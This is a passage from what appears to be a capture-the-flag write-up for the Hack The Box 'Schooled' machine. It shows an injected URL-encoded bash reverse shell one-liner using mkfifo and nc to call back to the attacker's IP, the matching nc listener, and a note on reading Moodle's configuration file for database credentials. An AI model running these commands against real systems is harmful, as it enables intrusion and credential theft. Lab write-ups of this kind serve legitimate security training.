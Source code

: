 To obtain a shell in the system, we can handle the request, and insert a URL encoded bash reverse shell command, `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc (Our IP) (Our listening port) >/tmp/f`, and listen in the used port with `nc -nvlp (Port)`.

![](/assets/images/htb-writeup-schooled/schooled36.png)

## Lateral movement

With a shell as the www user, we can read the Moodle configuration file to get the credentials of its database.
